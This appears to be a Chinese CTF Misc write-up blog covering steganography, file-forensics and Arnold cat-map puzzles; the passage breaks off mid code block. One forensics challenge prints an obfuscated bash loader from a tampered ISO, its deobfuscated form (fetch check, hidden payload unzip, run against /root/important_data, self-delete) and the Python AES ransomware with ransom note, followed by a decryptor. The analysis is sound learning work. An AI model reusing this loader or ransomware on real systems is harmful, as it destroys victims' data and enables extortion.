# 星球朋友们问的一些来路不明的题

**用这篇博客来记录一下知识星球里朋友们问的一些 Misc 题**

**本文涉及的大部分题都来自于师傅们的提问，因此文中就不放具体附件的下载链接了**

**如有需要本文中涉及的题目附件，可以进我的 [知识星球](https://t.zsxq.com/an6p6) 获取**

<!--more-->



**因为本文的题目大都来源于群友的提问，因此我文章中就不放具体的附件下载链接了**

**如果有需要题目附件的师傅，可以进我的 [知识星球](https://t.zsxq.com/an6p6) 获取附件下载链接**



## 题目名称 sunset

题目附件给了下面这张图片


上手用 zsteg 扫一下，发现 RGB 三个通道中都藏了一个压缩包


因此我们用以下命令分别导出三个压缩包

```shell
zsteg -e b1,r,lsb,xy sunset.png > 1.zip
zsteg -e b1,g,lsb,xy sunset.png > 2.zip
zsteg -e b1,b,lsb,xy sunset.png > 3.zip
```

解压后分别得到 r.txt g.txt b.txt ，因此猜测是分别导出了三个通道的 hexdump

我们使用以下脚本把三个通道的数据组合一下

```python
def read_channel_data(file_path):
    with open(file_path, 'r') as file:
        channel_data = file.readlines()

    formatted_data = []
    for line in channel_data:
        data = line.split()
        formatted_data.append(data[0] + data[1])

    return ''.join(formatted_data)


def combine_channels_to_bytes(r_data, g_data, b_data):
    binary_data = ''
    for r, g, b in zip(r_data, g_data, b_data):
        r_binary = bin(int(r, 16))[2:].zfill(4)
        g_binary = bin(int(g, 16))[2:].zfill(4)
        b_binary = bin(int(b, 16))[2:].zfill(4)
        # 逐位读取RGB合并后的二进制数据
        binary_data += ''.join(a + b + c for a, b,
                               c in zip(r_binary, g_binary, b_binary))

    byte_data = bytes([int(binary_data[i:i+8], 2)
                      for i in range(0, len(binary_data), 8)])
    return byte_data


def main():
    # 读取并格式化 R、G、B 通道数据
    r_data = read_channel_data('r.txt')
    g_data = read_channel_data('g.txt')
    b_data = read_channel_data('b.txt')

    # 合并通道数据成字节数据
    byte_data = combine_channels_to_bytes(r_data, g_data, b_data)

    # 将字节数据写入文件
    with open('1.zip', 'wb') as f_out:
        f_out.write(byte_data)
    print('Done')


if __name__ == "__main__":
    main()

```

组合后可以得到一个 zip 压缩包，解压后即可得到 flag


## 题目名称 大威天龙

题目附件给了一个DOC和一个加密的RAR压缩包


RAR压缩包的注释中有提示


然后用010打开那个doc，发现其实是一个ZIP压缩包


改后缀为.zip然后解压，在`gogog`路径下可以得到一张JPG图片


结合之前RAR注释中的提示，猜测就是steghide隐写，因此我们直接使用stegseek进行爆破


可以得到一个txt文件，内容如下


因此压缩包解压密码就是：`恭喜你找到了rar压缩包的密码，快去解压吧！`

> Tips:这里有的师傅用010打开会发现看不到中文，是因为这里使用的是GBK编码，可以使用记事本或者CyberChef查看


解压RAR压缩包后可以得到一张PNG图片和一个filename.c的代码

猜测图片被这个代码加密了，因此我们尝试逆向这个代码，结果发现原来的Python代码就写在注释里


因此直接写个脚本还原一下flag.png即可，还原后可以得到一张二维码

```python
from PIL import Image


img = Image.open(r"out.png")
width,height = img.size
pix = img.load()

new_img = Image.new("RGBA", img.size)
new_pix = new_img.load()

for y in range(height):
    for x in range(width):
        b, a, r, g = pix[x, y]
        # 恢复亮度和对比度
        r = (r - 10) / 0.01
        g = (g - 10) / 0.01
        b = (b - 10) / 0.01
        a = (a - 10) / 0.01
        new_pix[x, y] = (int(r), int(g), int(b), int(a))

new_img.show()
new_img.save(r"flag.png")
```

最后扫码即可得到flag：`flag{5fbb5f2b0f9234576d2742f225044463}`


## 题目名称 外星的凯撒凯撒凯撒

解压附件，可以得到一个DOCX还有一个加密的压缩包


打开DOCX文件，发现里面有一部分文字是白色的，直接全部修改为红色并去除所有格式


然后发现有很多行base64编码，猜测是base64隐写


直接PZ解base64隐写可以得到：`The ciphertext is:I0qwVtx2ft`

然后我们在DOCX中调大缩放，可以看到有一个4music.wav的图标，直接双击即可打开一个wav


播放发现是SSTV，扫描后可以得到密钥：`ccttttf`


然后维吉尼亚解密即可得到压缩包解压密码：`G0odCae2ar`


使用得到的密码解压压缩包后可以得到一个flag.xlsx

把后缀改为.zip然后解压，在sheet1.xml中可以发现有很多内容，因此猜测是设置了特殊格式

然后根据 400行x400列 猜测是藏了一个二维码


因此我们打开flag.xlsx文件，仔细观察发现有的单元格字体是加粗的，我们把加粗的单元格都涂黑




然后调整一下列宽得到一张二维码


最后扫码即可得到flag：`flag{Cae2ar+Cae2ar+Cae2ar+...=Vigenre}`


## 题目名称 图的点很奇怪

题目附件给了一张PNG图片还有一个加密的ZIP压缩包，猜测需要从PNG图片中获取压缩包的解压密码


用010打开这张PNG图片，提示报错，仔细观察发现是图片chunk的CTYPE被修改了，尝试改回IDAT


然后发现图片末尾有多余的数据，尝试删除多余的数据


多余的数据删除后，图片就可以正常显示了，010中打开也没有报错了

放大图片查看，发现图片中有很多间隔相同的小点，猜测是隐写了另一张图片


因此我们尝试提取等距像素点，可以提取出来下面这张图片


因此压缩包的解压密码就是：`$df&vK1RGqoj`，用得到的压缩包密码解压后可以得到下图


010打开上图，发现末尾藏了一张数据逆置后的PNG图片


直接把末尾的数据复制出来CyberChef转换一下即可得到flag：`flag{d4405ce1-3aac-ffb1-68af11-7d93e2066a}`


## 题目名称 cat(技能兴鲁)

题目附件给了一个cat_encode.py还有一张cat.png


cat_encode.py的内容如下

```python
def arnold_encode(image, shuffle_times, a, b):
    arnold_image = np.zeros(shape=image.shape)
    h, w = image.shape[0], image.shape[1]
    N = h
    for time in range(shuffle_times):
        for ori_x in range(h):
            for ori_y in range(w):

                new_x = (1*ori_x + b*ori_y)% N
                new_y = (a*ori_x + (a*b+1)*ori_y) % N

                arnold_image[new_x, new_y, :] = image[ori_x, ori_y, :]

        image = np.copy(arnold_image)
    cv2.imwrite('cat.png', arnold_image, [int(cv2.IMWRITE_PNG_COMPRESSION), 0])
    return arnold_image
```

很明显就是经典的arnold猫脸变换了，但是没有给我们shuffle_times、a、b

因此猜测需要我们进行爆破，编写以下脚本进行爆破即可，当然能爆破的前提是三个值都不会太大

```python
import matplotlib.pyplot as plt
import cv2
import numpy as np

def arnold_decode(image, shuffle_times, a, b):
    """ decode for rgb image that encoded by Arnold
    Args:
        image: rgb image encoded by Arnold
        shuffle_times: how many times to shuffle
    Returns:
        decode image
    """
    # 1:创建新图像
    decode_image = np.zeros(shape=image.shape)
    # 2：计算N
    h, w = image.shape[0], image.shape[1]
    N = h  # 或N=w

    # 3：遍历像素坐标变换
    for time in range(shuffle_times):
        for ori_x in range(h):
            for ori_y in range(w):
                # 按照公式坐标变换
                new_x = ((a * b + 1) * ori_x + (-b) * ori_y) % N
                new_y = ((-a) * ori_x + ori_y) % N
                decode_image[new_x, new_y, :] = image[ori_x, ori_y, :]
        image = np.copy(decode_image)
        
    return image

def arnold_brute(image,shuffle_times_range,a_range,b_range):
    for c in range(shuffle_times_range[0],shuffle_times_range[1]):
        for a in range(a_range[0],a_range[1]):
            for b in range(b_range[0],b_range[1]):
                print(f"[+] Trying shuffle_times={c} a={a} b={b}")
                decoded_img = arnold_decode(image,c,a,b)
                output_filename = f"flag_decodedc{c}_a{a}_b{b}.png"
                cv2.imwrite(output_filename, decoded_img, [int(cv2.IMWRITE_PNG_COMPRESSION), 0])
                
if __name__ == "__main__":
    img = cv2.imread("cat.png")
    arnold_brute(img, (1,6), (1,11), (1,11))
```

最后发现当shuffle_times=3、a=6、b=9时可以得到下图


因此最后的flag就是：`flag{022ae0e0-c61e-428c-9f76-2eb089a58348}`

## 题目名称 被偷梁换柱的镜像

题目背景如下：

> 公司的运维人员使用了其U盘上的华为OpenEuler国产操作系统的ISO镜像，来给多台服务器安装系统，殊不知这些系统已经被悄悄的替换并嵌入了勒索病毒。。。多个月后，病毒偷偷的把数据加密了，你能帮忙分析并解密吗？

附件给了一个被加密的文件还有一个ISO镜像文件

ISO镜像直接双击挂载或者用Disk Genius挂载可以得到安装的镜像`install.img`


`install.img`因为系统格式不同，因此Windows下无法直接挂载

但是img镜像其实就是一个压缩包，用bandzip可能无法正常解压，但是我们可以使用7zip进行解压

第一层解压可以得到`rootfs.img`，再解压一层即可得到Linux的文件系统


然后我们在`\rootfs\var\adm`路径下可以得到一个`runrunrun.bash`，内容如下

```bash
z="
";lDz='Hz';Oz='id';VFz='y';jDz='$B';TCz=';G';MEz='gz';GDz=''\''j';az='"';OCz='4'\''';ez='se';rDz='Mz';Vz='/n';XDz=''\''D';KEz='$d';Cz='UR';HEz='$b';dEz='Oz';IEz='cz';qz='if';eDz='z$';Fz='tt';XEz='$s';OFz='ch';kz=' "';IBz='='\''';EEz='Vz';IDz=' '\''';qBz='Uz';LEz='$f';TEz='nz';oz='RL';MBz=''\'';';cz='sp';tFz='at';lEz='GB';ACz=''\''v';oBz=';O';RBz='Gz';Jz='pi';kBz='Cz';JEz='$c';KFz='d ';bEz='xz';VBz='m'\''';CDz=''\''X';wEz='si';vCz='tz';DBz=' t';KDz=''\''F';UDz=';V';WBz=';B';dz='on';dDz='al';XFz='40';YEz='$u';SEz='$m';YBz='IB';DCz='CB';eEz='Lz';YDz='wz';ZFz='py';rCz='Wz';FEz='$Z';yDz='$U';TBz=';J';OBz='O'\''';xDz='$T';dFz='/r';EFz='/R';eBz=';k';YFz='0 ';qEz='un';TDz=','\''';Kz='.b';UCz='h'\''';jCz='jz';Ez='"h';aDz=';P';pCz=';d';JCz='vz';PDz='M'\''';hCz=';m';iz='l ';Iz='/a';mEz='$D';qCz=''\''c';ECz=''\''/';UEz='$o';XBz=''\''{';UFz='.p';iDz='Az';QEz='$k';cBz=';F';nz='_U';yBz=';H';bz='re';jz='-s';BBz='" ';tBz=''\''%';HDz='Fz';HBz='Jz';vEz='pa';HCz=';c';CCz=''\'')';eFz='oo';NFz='/.';sz='$r';hEz='$X';aEz='$w';sCz='x'\''';fFz='t/';BCz='DB';LCz=';S';rz=' [';FBz='z=';tEz='-P';RDz=''\''7';OEz='$i';Az='AP';kCz='Z'\''';kEz='FB';uFz='e.';Sz='/c';SCz='~'\''';MFz='mp';bBz='a'\''';VEz='$p';lz='$A';gDz='$E';FFz='TL';VDz=''\'''\''';REz='lz';qDz='$M';sBz=';x';SBz='e'\''';eCz=''\''@';oCz='2'\''';Tz='he';fCz='yz';mDz='$I';JBz='l'\''';uz='po';RFz='up';BFz='fi';FCz='oz';SDz='uz';QCz=''\''9';IFz='in';aFz='th';YCz=''\''y';cCz='}'\''';DFz='wa';PFz='ec';RCz='Dz';aCz=''\''1';Rz='om';FDz=';n';nDz='$K';tDz='$O';ZEz='$v';CBz='];';iFz='an';cFz='y ';ZDz='|'\''';jBz=''\''"';iBz=';K';DDz='Rz';mFz=' &';Bz='I_';vDz='$Q';mBz=';A';EDz='\'\''';JDz=';f';LBz=''\''d';Wz='ee';XCz=';T';sDz='$N';ICz=''\''6';yEz='de';WDz=';Q';vz='ns';ODz='pz';Lz='ai';bDz=''\''L';pEz='z"';NDz=''\''$';dCz=';M';kFz='ta';kDz='$G';Mz='du';yCz='Zz';PBz=';L';SFz='da';tz='es';ZCz='BB';xBz='#'\''';oDz='$L';MDz='t'\''';pz='")';mCz=''\''n';GCz='E'\''';AFz=' /';PCz=';l';PEz='$j';xz=' =';oEz='$h';DEz='$Y';vBz=''\''R';rFz='_u';UBz='Bz';jEz='$x';LDz='bz';QFz='k_';wBz='Nz';wz='e"';oFz='10';hz='ur';WEz='Qz';fDz='$C';jFz='t_';nBz='b'\''';MCz=''\''`';WCz='3'\''';pDz='Kz';iEz='EB';KBz=';i';AEz='$V';gz='(c';cEz='$y';nEz='iz';uDz='Pz';Dz='L=';nFz='sl';rEz='zi';uCz=''\''z';lFz='/*';NEz='hz';pFz='tm';uBz='HB';xCz=''\''g';VCz=';E';Uz='ck';bCz='Ez';HFz='25';lBz='*'\''';CFz='rm';JFz=' -';GFz='81';EBz='n';gBz='ez';qFz='p/';iCz=''\''I';TFz='te';ADz='i'\''';hDz='$F';wCz=';s';yz='= ';GEz='az';WFz='mo';Gz='ps';mz='PI';sFz='pd';sEz='p ';QDz=';X';Qz='.c';xEz='wo';fBz=''\''U';ABz='"y';gFz='im';CEz='Xz';LFz='/t';dBz='Q'\''';GBz='";';Xz='d/';NBz='rz';Pz='ub';Zz='ed';BDz=';h';Nz='ba';ZBz=''\''-';QBz=''\''(';hFz='rt';bFz='3 ';lCz=';a';tCz=';g';pBz=''\''s';cDz='ev';uEz=' $';BEz='$W';gEz='$J';NCz='qz';nCz='Yz';fz='=$';fEz='$R';Hz=':/';hBz='G'\''';wDz='$S';gCz='+'\''';aBz='Iz';Yz='lo';KCz='^'\''';rBz='p'\''';

echo "$Az$Bz$Cz$Dz$Ez$Fz$Gz$Hz$Iz$Jz$Kz$Lz$Mz$Nz$Oz$Pz$Lz$Mz$Nz$Oz$Pz$Lz$Mz$Qz$Rz$Sz$Tz$Uz$Vz$Wz$Xz$Yz$Uz$Zz$az$z$bz$cz$dz$ez$fz$gz$hz$iz$jz$kz$lz$mz$nz$oz$pz$z$qz$rz$kz$sz$tz$uz$vz$wz$xz$yz$ABz$tz$BBz$CBz$DBz$Tz$EBz$z$FBz$az$z$GBz$HBz$IBz$JBz$KBz$FBz$LBz$MBz$NBz$IBz$OBz$PBz$FBz$QBz$MBz$RBz$IBz$SBz$TBz$UBz$IBz$VBz$WBz$FBz$XBz$MBz$YBz$FBz$ZBz$MBz$aBz$IBz$bBz$cBz$UBz$IBz$dBz$eBz$FBz$fBz$MBz$gBz$IBz$hBz$iBz$FBz$jBz$MBz$kBz$IBz$lBz$mBz$UBz$IBz$nBz$oBz$FBz$pBz$MBz$qBz$IBz$rBz$sBz$FBz$tBz$MBz$uBz$FBz$vBz$MBz$wBz$IBz$xBz$yBz$FBz$ACz$MBz$BCz$FBz$CCz$MBz$DCz$FBz$ECz$MBz$FCz$IBz$GCz$HCz$FBz$ICz$MBz$JCz$IBz$KCz$LCz$FBz$MCz$MBz$NCz$IBz$OCz$PCz$FBz$QCz$MBz$RCz$IBz$SCz$TCz$UBz$IBz$UCz$VCz$UBz$IBz$WCz$XCz$FBz$YCz$MBz$ZCz$FBz$aCz$MBz$bCz$IBz$cCz$dCz$FBz$eCz$MBz$fCz$IBz$gCz$hCz$FBz$iCz$MBz$jCz$IBz$kCz$lCz$FBz$mCz$MBz$nCz$IBz$oCz$pCz$FBz$qCz$MBz$rCz$IBz$sCz$tCz$FBz$uCz$MBz$vCz$IBz$IBz$wCz$FBz$xCz$MBz$yCz$IBz$ADz$BDz$FBz$CDz$MBz$DDz$IBz$EDz$FDz$FBz$GDz$MBz$HDz$IBz$IDz$JDz$FBz$KDz$MBz$LDz$IBz$MDz$mBz$FBz$NDz$MBz$ODz$IBz$PDz$QDz$FBz$RDz$MBz$SDz$IBz$TDz$UDz$FBz$VDz$EDz$VDz$WDz$FBz$XDz$MBz$YDz$IBz$ZDz$aDz$FBz$bDz$MBz$z$cDz$dDz$kz$lz$eDz$UBz$fDz$eDz$RCz$gDz$eDz$HDz$hDz$eDz$iDz$jDz$eDz$kBz$gDz$eDz$HDz$kDz$eDz$lDz$lz$eDz$UBz$fDz$eDz$bCz$mDz$eDz$HBz$hDz$eDz$HDz$nDz$eDz$iDz$oDz$eDz$HDz$hDz$eDz$HDz$hDz$eDz$pDz$lz$eDz$UBz$qDz$eDz$RCz$gDz$eDz$pDz$hDz$eDz$iDz$jDz$eDz$rDz$sDz$eDz$aBz$tDz$eDz$uDz$vDz$eDz$DDz$wDz$eDz$rDz$xDz$eDz$bCz$hDz$eDz$HDz$yDz$eDz$iDz$AEz$eDz$DDz$BEz$eDz$CEz$DEz$eDz$EEz$FEz$eDz$GEz$HEz$eDz$iDz$AEz$eDz$DDz$BEz$eDz$IEz$JEz$eDz$EEz$hDz$eDz$pDz$KEz$eDz$gBz$LEz$eDz$MEz$mDz$eDz$NEz$OEz$eDz$lDz$PEz$eDz$gBz$QEz$eDz$REz$SEz$eDz$TEz$UEz$eDz$nCz$VEz$eDz$TEz$QEz$eDz$NCz$sz$eDz$WEz$XEz$eDz$NCz$SEz$eDz$TEz$tDz$eDz$vCz$nDz$eDz$HDz$hDz$eDz$iDz$jDz$eDz$rDz$YEz$eDz$bCz$hDz$eDz$HDz$nDz$eDz$iDz$jDz$eDz$rDz$ZEz$eDz$JCz$gDz$eDz$pDz$hDz$eDz$HDz$aEz$eDz$HDz$hDz$eDz$HDz$lz$eDz$UBz$fDz$eDz$bEz$sz$eDz$MEz$cEz$eDz$HBz$gDz$eDz$HDz$hDz$eDz$HDz$lz$UBz$AEz$eDz$EEz$mDz$eDz$dEz$AEz$eDz$EEz$kDz$eDz$iDz$oDz$eDz$eEz$hDz$eDz$HDz$hDz$eDz$eEz$oDz$eDz$ZCz$eDz$iDz$jDz$eDz$kBz$fDz$UBz$fEz$eDz$BCz$eDz$TEz$jDz$UBz$gEz$eDz$fCz$HEz$eDz$DCz$eDz$TEz$KEz$eDz$JCz$hEz$eDz$bCz$jDz$UBz$sDz$eDz$pDz$jDz$UBz$nDz$eDz$kBz$jDz$UBz$nDz$eDz$iEz$eDz$pDz$sDz$eDz$ZCz$eDz$BCz$eDz$fCz$gDz$UBz$nDz$eDz$wBz$nDz$eDz$pDz$jDz$UBz$nDz$eDz$pDz$lz$eDz$UBz$qDz$eDz$bEz$jEz$eDz$kEz$eDz$lEz$eDz$uBz$eDz$kEz$eDz$bCz$nDz$eDz$nCz$mEz$UBz$hDz$eDz$BCz$eDz$BCz$eDz$pDz$nDz$eDz$NCz$hDz$eDz$YBz$eDz$nEz$hDz$eDz$HDz$lz$eDz$UBz$qDz$eDz$bEz$sDz$eDz$lDz$gEz$UBz$oEz$eDz$uDz$fEz$eDz$BCz$eDz$wBz$gDz$eDz$HDz$hDz$eDz$HDz$hDz$eDz$BCz$eDz$pDz$hDz$eDz$HDz$nDz$eDz$iDz$jDz$eDz$rDz$YEz$eDz$bCz$nDz$pEz$z$qEz$rEz$sEz$tEz$uEz$vEz$wEz$xEz$yEz$AFz$BFz$CFz$DFz$bz$EFz$FFz$GFz$HFz$Kz$IFz$JFz$KFz$LFz$MFz$NFz$OFz$PFz$QFz$RFz$SFz$TFz$UFz$VFz$z$OFz$WFz$KFz$XFz$YFz$LFz$MFz$NFz$OFz$PFz$QFz$RFz$SFz$TFz$UFz$VFz$z$ZFz$aFz$dz$bFz$LFz$MFz$NFz$OFz$PFz$QFz$RFz$SFz$TFz$UFz$cFz$dFz$eFz$fFz$gFz$uz$hFz$iFz$jFz$SFz$kFz$lFz$mFz$z$nFz$Wz$sEz$oFz$z$CFz$AFz$pFz$qFz$Qz$Tz$Uz$rFz$sFz$tFz$uFz$ZFz$z$BFz"
```

> Tips：在做取证题过程中如果发现文件较多，其实可以把文件按照时间排序一下，这样可以大大缩短定位时间

是一个加了混淆的bash脚本，代码不长，我们可以手动解一下这个混淆

```bash
API_URL="https://api.baidubaidubaidubaidubaidu.com/check/need/locked"
response=$(curl -s "$API_URL")
if [ "$response" == "yes" ]; then
eval 'printf "cGFzaXdvZGU9IjE2MjU4ODg4Ijs=" |  base64 -d'
unzip -P $pasiwode /firmware/RTL8125.bin -d /tmp/.check_update.py
chmod 400 /tmp/.check_update.py
python3 /tmp/.check_update.py /root/important_data/* &
sleep 10
rm /tmp/.check_update.py
fi
```

其实就是base64解码得到压缩包解压密码：`16258888`，然后解压的过程，然后压缩包中的文件就是加密代码



因此我们接下来需要去找加密代码，发现7zip直接解压出来会丢失这部分的文件


所以我们使用`Disk Genius`的恢复文件功能去恢复加密的压缩包以及里面的加密代码


改后缀为.zip，然后使用得到的压缩包密码解压即可得到加密代码，内容如下：

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import hashlib
import time
import sys

NODecryptionForYouFFFFFFF = sys.argv[1]

def NODecryptionForYou1(NODecryptionForYou5):
    NODecryptionForYou6 = hashlib.md5(str(NODecryptionForYou5).encode('utf-8')).digest()
    return NODecryptionForYou6[:16]

def NODecryptionForYou2(NODecryptionForYou4, NODecryptionForYou11, NODecryptionForYou12):
    cipher = AES.new(NODecryptionForYou4, AES.MODE_CBC)
    with open(NODecryptionForYou11, 'rb') as NODecryptionForYouMAN8IN:
        NODecryptionForYou7 = NODecryptionForYouMAN8IN.read()
    NODecryptionForYou8 = cipher.iv + cipher.encrypt(pad(NODecryptionForYou7, AES.block_size))
    with open(NODecryptionForYou12, 'wb') as NODecryptionForYouMAN8OUT:
        NODecryptionForYouMAN8OUT.write(NODecryptionForYou8)

NODecryptionForYou5 = int(time.time())
NODecryptionForYou4 = NODecryptionForYou1(NODecryptionForYou5)
NODecryptionForYou3 = f'{NODecryptionForYou5}.locked'
NODecryptionForYou2(NODecryptionForYou4, NODecryptionForYouFFFFFFF, NODecryptionForYou3)

print("SEND 1000 BTC TO [asdjjkh1iuhfihuiu1yrueo-this-is-fake-addr] for decryption, OR WE WILL LEAK ALL YOU DATA!!!")
```

代码逻辑并不复杂，就是用时间戳MD5值的前16位作为key去进行AES-CBC加密，然后IV保存在加密后文件的前16字节中

解密的思路也比较简单，懒得自己手写了，直接GPT秒了

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import hashlib

def NODecryptionForYou1(timestamp):
    # 通过时间戳生成密钥
    NODecryptionForYou6 = hashlib.md5(str(timestamp).encode('utf-8')).digest()
    return NODecryptionForYou6[:16]

def NODecryptionForYou2(key, enc_file, output_file):
    with open(enc_file, 'rb') as f:
        enc_data = f.read()
    
    # 从加密文件中提取 IV 和密文
    iv = enc_data[:16]  # 前 16 字节是 IV
    cipher_text = enc_data[16:]  # 剩下的是密文
    
    # 使用 AES CBC 模式进行解密
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = unpad(cipher.decrypt(cipher_text), AES.block_size)
    
    # 将解密后的数据保存到输出文件
    with open(output_file, 'wb') as f:
        f.write(decrypted_data)

timestamp = 1732250675
key = NODecryptionForYou1(timestamp)
enc_file = f'{timestamp}.locked'  # 加密文件
output_file = f'{timestamp}.decrypted'  # 解密后的文件

NODecryptionForYou2(key, enc_file, output_file)

print(f"File decrypted successfully! Output saved as {output_file}")
```

运行以上代码，发现解密后的文件是一个zip压缩包，因此改后缀位.zip并解压可以得到一个`重要数据.docx`


打开DOCX即可得到flag：`flag{851bd91f4a8168d2d719ab69eb1423f9}`


## 题目名称 莉可丽丝(迅岚安全杯)

题目附件给了一个压缩包，解压后可以得到一张`莉可丽丝 .jpg`


010打开发现末尾藏了一个7z压缩包



提取出来后尝试使用弱密码字典爆破，得到解压密码`1234567890`

> Tips：7z的弱密码字典爆破可能会有点慢，使用`passware kit`爆破可能会稍微快一点


解压后得到一个类似于PPTX结构的文件夹，因此我们压缩为zip并改后缀为.pptx


打开PPTX文件，删除覆盖在上面的文字和图片，发现最下面有一行白色的文字，改个颜色即可得到flag：`flag{geigei_zhen_de_hao_li_hai}
`


## 题目名称 电音

附件给了一个wav和一个加密的压缩包

wav用au打开查看频谱图可以看到一个二维码


截个图然后用PPT拼一下可以得到下面这张二维码，扫码得到`qr1sc0ol&`


因此猜测还有后半段的解压密码，仔细查看那个wav文件，尝试把前面二维码的内容删除

把剩下的内容`效果器-音量与压缩-增幅`，然后再播放，发现是DTMF电话音

直接用[GitHub - ribt/dtmf-decoder](https://github.com/ribt/dtmf-decoder) 这个项目识别一下可以得到：`3863334447777222666666555`


然后联想到手机键盘密码，根据下面这个对照表得到`dtmfiscool`

感谢烛影✌提供的对照表


```
3 8 6 333 444 7777 222 666 666 555
d t m f    i    s   c   o   o   l
```

因此压缩包的解压密码为`qr1sc0ol&dtmfiscool`，解压即可得到flag：`flag{b606eea7-16e4-4b41-9efc-ca000429480f}`

## 题目名称 Coffee_loving_cat(天权信安CTF)

整场比赛Misc的完整wp：[首届“天权信安&catf1ag”网络安全联合公开赛-部分misc-CSDN博客](https://blog.csdn.net/weixin_52365980/article/details/128338404)

附件给了一个压缩包，里面一共有四个文件，其中三个文件是加密的


但是下面这张文件没有加密，猜测需要从下面这张图片中获取解压密码


发现这张图片主要是讲咖啡价格的，因此密码与咖啡有关，上网搜索可以找到下面这篇文章

星巴克杯子上字母的含义：https://www.mopress.io/food/olejRNQWej

```
1. L - 一般拿铁（Latte）
2. VL - 香草拿铁（Vanilla Latte）
3. HL - 榛子拿铁（Hazelnut Latte）
4. FW - 馥芮白（Flat white）
5. CM - 焦糖玛奇朵（Caramel Macchiato）
6. M - 摩卡（Mocha）
7. C加横杠 - 卡布奇诺（Cappuccino）
8. A - 美式咖啡（Americano）
```

根据这个对应关系和上面那张图可以得到：`ALCMCMFW`

然后把上面咖啡的价格以此相加`6+9+12+10+14+11 = 62`联想到base62编码

之前得到的内容base62编码一下可以得到解压密码`5bZuRXL0Mjf`

解压后可以得到两张图片，里面有两张二维码


扫码后可以得到如下内容

```
Megrez is yyds!!!

Megrez is my god!!!
```

然后我们看另一张图片，结合题目名称中的cat，猜测是Arnold猫脸变换

因为shuffle_times、a、b三个参数都未知，因此我们尝试爆破一下

最后发现正确的shuffle_times、a、b分别为 12、0、9

> Tips：这里因为图片不是正方形，所以需要分别取模宽和高

```python
import cv2
import numpy as np

def arnold_decode(image, shuffle_times, a, b):
    decode_image = np.zeros(shape=image.shape)
    h, w = image.shape[0], image.shape[1]
    for time in range(shuffle_times):
        for ori_x in range(h):
            for ori_y in range(w):
                new_x = ((a * b + 1) * ori_x + (-b) * ori_y) % h
                new_y = ((-a) * ori_x + ori_y) % w
                decode_image[new_x, new_y, :] = image[ori_x, ori_y, :]
        image = np.copy(decode_image)
    return image

if __name__ == "__main__":
    img = cv2.imread("fla@.bmp")
    decode_img = arnold_decode(img, 12, 0, 9)
    cv2.imwrite('flag.png',decode_img)
```

运行以上脚本后即可得到flag：`flag{512ed05a-629a-11ed-ae9d-ac1203fb3249}`


## 题目名称 简单的图片(XSCTF联合招新赛)

附件给了下面这张图片


zsteg扫一下，发现LSB隐写了数据


尝试用`zsteg -e b1,bgr,lsb,xy IM.png > data.txt`导出可以得到如下数据

```
